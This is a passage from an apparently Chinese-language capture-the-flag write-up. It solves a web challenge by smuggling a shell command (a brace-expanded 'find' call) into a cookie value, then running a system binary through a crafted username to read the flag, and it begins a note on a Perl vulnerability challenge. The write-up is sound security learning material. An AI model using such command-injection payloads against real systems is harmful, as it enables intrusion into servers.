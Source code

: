 这里`%09`为水平制表符，用于在`reply`函数中达成绕过从而作为文件写入而非目录，获取到响应如下。

```sh
GET /users_lookup/sh.wtf HTTP/1.1
Host: 111.198.29.45:48634
Cookie: USERNAME=${find,/,-iname,get_flag2}; TOKEN=Uf7xrOWHXoRzLdVS6drbhjHyIZVsCXFgQYnOG01UhENS1aaajeezaWrgpOno8HBljrHOMmfbQUY+rES1bWlNWQ==

HTTP/1.1 200 OK
[...]
/usr/bin/get_flag2
RE:
asd
```

由此 `get_flag2` 是 `/usr/bin/` 下的一个二进制文件。我们现在只需要创建用户`$/usr/bin/get_flag2` 并再次发送回复请求即可：

![](/assets/images/move/20190915152339.png)

![](/assets/images/move/20190915152358.png)

获取到 `149e5ec49d3c29ca}`=> `xctf{cb49256d1ab48803149e5ec49d3c29ca}`.

## 0x0A i-got-id-200

csaw-ctf-2016-quals

Wtf... I literally just setup this website and it's already popped...

这个挑战非常有趣，主要考点在于[Blackhat Asia 2016](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf)上所讲述的 **Perl 5 Vulnerable**。

![](/assets/images/move/20190916165926.png)
